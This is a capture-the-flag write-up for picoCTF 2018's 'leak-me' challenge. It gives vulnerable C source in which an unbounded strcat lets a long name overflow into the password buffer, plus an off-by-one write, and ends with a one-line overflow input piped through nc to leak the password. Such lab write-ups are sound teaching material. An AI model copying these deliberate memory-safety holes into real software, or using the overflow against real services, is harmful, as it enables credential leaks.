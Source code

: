 leak-me - Points: 200
===========

## Description

>Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 38315. 

## Hint:

> *  Are all the system calls being used safely?
> *  Some people can have reallllllly long names you know..

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

## Useful Information

> * the "\x00" is not properly managed with the variable name. 


## Exploit

**Overflowing the name for concatenate it with password variable(no "\x00" delimiters between them):**

> * python -c 'print "A"*500'|.nc 2018shell1.picoctf.com 38315
> * Use the printed password to get the Flag
